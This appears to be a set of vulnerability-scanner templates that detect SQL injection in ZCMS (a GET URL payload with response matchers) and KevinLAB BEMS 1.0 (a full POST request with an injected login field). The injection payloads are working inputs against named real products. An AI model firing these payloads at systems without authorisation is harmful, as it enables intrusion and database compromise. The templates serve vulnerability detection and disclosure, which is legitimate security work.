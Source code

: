 - ZCMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - zcms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/admin/cms_channel.php?del=123456+AND+(SELECT+1+FROM(SELECT+COUNT(*)%2cCONCAT(0x7e%2cmd5({{num}})%2c0x7e%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.CHARACTER_SETS+GROUP+BY+x)a)--%2b'

### Matchers

**Type - word**

- words
  1. {{md5({{num}})}}
- part - body

**Type - status**

- status
  1. 200

---

# KevinLAB BEMS 1.0 - SQL Injection

## Description

- KevinLAB BEMS 1.0 contains a SQL injection vulnerability. Input passed through input_id POST parameter in /http/index.php is not properly sanitized before being returned to the user or used in SQL queries. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - kevinlab,sqli,edb,packetstorm

## Requests

### Step - 1

```
POST /http/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate

requester=login&request=login&params=[{"name":"input_id","value":"USERNAME' AND EXTRACTVALUE(1337,CONCAT(0x5C,0x5A534C,(SELECT (ELT(1337=1337,1))),0x5A534C)) AND 'joxy'='joxy"},{"name":"input_passwd","value":"PASSWORD"},{"name":"device_id","value":"xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"},{"name":"checked","value":false},{"name":"login_key","value":""}]

```

